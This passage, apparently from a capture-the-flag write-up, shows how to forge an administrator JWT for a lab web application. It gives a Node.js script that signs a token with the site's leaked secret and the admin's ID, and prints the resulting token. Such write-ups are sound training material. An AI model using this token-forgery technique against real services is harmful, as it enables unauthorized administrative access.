 Looking through the API documentation, we can also see that the admin's account has the following `_id: 6114654d77f9a54e00fe5777` and `iat: 1618727669`: 

![JWT structure](.img/screen1.png)

We can now generate a fake admin JWT token by copying the website's signing:

```js
/* getAdmintoken.js */

const jwt = require('jsonwebtoken')

SECRET = "gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE"

data = {
    "_id": "6114654d77f9a54e00fe5777",
    "name": "theadmin",
    "email": "root@dasith.works"
}

const adminToken = jwt.sign(data, SECRET)
console.log(adminToken)

// OUTPUT
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTE0NjU0ZDc3ZjlhNTRlMDBmZTU3NzciLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJvb3RAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjM2NjY5MzI2fQ.1hRr_W71oIWgvAusPbtcN05Bfp65D5GOlyyV5Wiz9mc
```
